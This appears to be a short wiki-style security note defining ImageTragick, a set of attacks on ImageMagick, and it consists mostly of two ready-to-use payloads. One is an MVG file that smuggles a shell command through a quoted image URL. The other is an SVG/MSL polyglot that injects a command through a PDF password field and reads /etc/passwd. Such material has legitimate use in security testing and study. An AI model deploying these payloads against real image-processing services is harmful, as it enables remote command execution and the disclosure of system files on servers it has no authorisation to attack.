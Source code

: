 ## Definition
__ImageTragick__ are a set of attacks that can be run in the well-know [[Imagemagick]].

## Common attacks
- .MVG file attack: 
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```
- .SVG shell injection via PDF password (SVG MSL Polyglot file):
```
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
	</image>
```
